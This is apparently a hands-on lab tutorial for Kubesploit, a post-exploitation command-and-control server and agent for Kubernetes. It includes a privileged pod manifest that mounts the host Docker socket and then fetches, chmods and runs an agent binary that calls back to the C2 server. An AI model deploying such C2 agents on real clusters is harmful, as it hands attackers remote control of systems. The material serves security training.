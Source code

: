 Here we will see the basic settings of Kubesploit.

## Basics of Kubesploit

<p align="left">
  <img src="https://github.com/cyberark/kubesploit/blob/assets/1.5x/kubesploit@1.5x-100.jpg?raw=true">
</p>


Kubesploit is a cross-platform post-exploitation HTTP/2 Command & Control server and agent written in Golang, focused on containerized environments.  
More information can be found here:  
https://github.com/cyberark/kubesploit  


#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./kubesploitServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/kubesploitAgent-Linux-x64_katacoda && chmod +x kubesploitAgent-Linux-x64_katacoda && ./kubesploitAgent-Linux-x64_katacoda -url https://$HOST_IP:443", "sleep infinity" ]
    securityContext:
      privileged: true
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
  - name: docker-sock
    hostPath:
      path: /var/run/docker.sock
EOF```{{execute T2}}  



Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection details.  

